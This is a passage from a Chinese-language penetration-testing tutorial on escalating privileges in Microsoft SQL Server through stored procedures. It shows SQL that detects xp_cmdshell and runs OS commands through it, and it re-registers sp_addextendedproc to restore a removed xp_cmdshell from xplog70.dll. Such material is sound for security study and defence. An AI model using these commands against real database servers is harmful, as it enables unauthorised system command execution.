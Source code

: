 其次下面主要讲的一些提权姿势为存储过程提权,想要查看数据库中是否有对应的存储过程,可以用下面的语句:

```
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
```

或者查询对应数据库中定义的存储过程有哪些:



```
SELECT ROUTINE_CATALOG,SPECIFIC_SCHEMA,ROUTINE_NAME,ROUTINE_DEFINITION
FROM MASTER.INFORMATION_SCHEMA.ROUTINES
ORDER BY ROUTINE_NAME
```

推荐一篇文章,是关于证书登录提权的[**文章**](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/)

**xp_cmdshell**

```
EXEC master.dbo.xp_cmdshell 'cmd';
```

最为经典的就是这个组件了,但是2005之后就默认关闭,而且现在来说都会把这个扩展删除掉

[![](https://p0.ssl.qhimg.com/t016aec93a269996851.png)](https://p0.ssl.qhimg.com/t016aec93a269996851.png)

因为xp_cmdshell用得最多,这里就xp_cmdshell使用过程中可能遇到的和网上收集问题列举一下:

首先说明一下,下面用到的addextendedproc的时候是没有开启的,试了一些语句,下面的语句可以创建一个存储过程:



```
use master
go
create procedure sp_addextendedproc
@functname nvarchar(517),
@dllname varchar(255)
as
set implicit_transactions off
if @@trancount &gt; 0
begin
raiserror(15002,-1,-1,'sp_addextendedproc')
return (1)
end
dbcc addextendedproc( @functname, @dllname)
return (0)
```

1. 未能找到存储过程'master..xpcmdshell'.

恢复方法：



```
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll' declare @o int 
EXEC sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```
